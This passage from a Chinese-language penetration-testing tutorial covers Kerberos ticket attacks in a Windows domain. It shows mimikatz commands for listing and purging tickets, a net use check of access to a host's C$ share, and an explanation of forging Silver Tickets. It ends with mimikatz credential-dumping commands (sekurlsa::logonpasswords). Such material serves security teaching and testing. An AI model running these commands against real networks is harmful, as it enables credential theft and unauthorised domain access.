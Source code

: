 也可以在 mimikatz 中查看该票据

```
#以下两个命令均可以看到当前会话中的票据
kerberos::list
kerberos::tgt
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx49EG88dk1XA8P9I2HMJkR800Q3IOnwKCiaZXtO59QtLYnazav2txhpibw/640?wx_fmt=png)

**验证是否成功**

```
net use k: \\WIN2008.xie.com\c$   #将WIN2008的C盘映射到本地的K盘，注意这里格式只能是 主机名.域名 的形式，而不能写ip
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4esI0p2JdSHcTKAfJVmWuEBibFQPHa6lUQkkm5CgTo1IgoXswAcM8bgg/640?wx_fmt=png)

我们也可以将该票据删除：

```
kerberos::purge      #删除票据
kerberos::list       #查看票据
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4xWicz92cAzWxBxibYtcNMvHaSFkMp6Uqm76Hmw87S8uycUWF0h4xQFKw/640?wx_fmt=png)

**白银票据 (Silver Ticket) 传递攻击**  

白银票据 Silver Ticket 不同域黄金票据 Golden Ticket。白银票据的利用过程是伪造 TGS，通过已知的授权服务密码生成一张可以访问该服务的 TGT。因为在票据生成过程中不需要使用 KDC，所以可以绕过域控，很少留下日志。黄金票据使用 krbtgt 账号的密码散列值，利用伪造高权限的 TGT 向 KDC 要求颁发拥有任意服务访问权限的票据，从而获取域控权限。而白银票据会通过相应的服务账号来伪造 TGS，例如：LDAP、MSSQL、WinRM、DNS、CIFS 等，范围有限，只能获取对应服务的权限。

要创建白银票据，我们需要知道以下信息：

*   要伪造的域用户 (这里我们一般填写域管理员账户)
    
*   域名
    
*   域的 SID 值 (就是域成员 SID 值去掉最后的)
    
*   目标服务的 FQDN
    
*   可利用的服务
    
*   服务账号的 NTLM 哈希
    

**使用白银票据伪造 CIFS 服务权限**  

CIFS 服务通常用于 Windows 主机之间的文件共享。

（1）使用 mimikatz 获得服务账号的 NTLM 哈希值

```
privilege::Debug
sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4dEx8ZcxvSeOdSxfrUzXNoJ86kZAicZTkL5C2zsZqLublygWK7wbDsIA/640?wx_fmt=png)
